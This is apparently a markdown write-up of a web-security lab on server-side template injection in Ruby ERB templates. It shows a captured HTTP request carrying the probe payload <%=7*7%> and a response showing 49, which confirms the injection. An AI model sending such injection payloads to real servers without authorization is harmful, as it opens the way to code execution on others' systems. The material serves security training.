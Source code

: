 # SSTI (Server-Side Template Injection)


## Introduction
Template engines are components of common frameworks that are used to combine user supplied data
to a overall "template" to help generate web pages.

SSTI allows attackers to input template syntax to manipulate the engine and execute commands. It occurs when user input is concatenated into templates instead of being passed in as data.


## Lab: Basic server-side template injection


This lab is vulnerable to server-side template injection due to the unsafe construction of an ERB template.

To solve the lab, review the ERB documentation to find out how to execute arbitrary code, then delete the morale.txt file from Carlos's home directory.

As the template engine is ERB (Ruby) we can use `<%= 7 * 7 %>` to see if it is vulnerable.

```

GET /?message=<%=7*7%> HTTP/1.1
Host: 0a31004f034823bac0d24ae8007700a4.web-security-academy.net
Cookie: session=kDe2b7zloDz5WbHt5MjiqhN7Y39RFAEI
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.95 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Sec-Ch-Ua: "Not?A_Brand";v="8", "Chromium";v="108"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Referer: https://0a31004f034823bac0d24ae8007700a4.web-security-academy.net/?message=Unfortunately%20this%20product%20is%20out%20of%20stock
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close



```

```
...
<section class="ecoms-pageheader">
<img src="/resources/images/shop.svg">
</section>
<div>49</div>
<section class="container-list-tiles">

...
```
You can see from the above response that because 7*7 evaluted to 49 this is vulnerable.
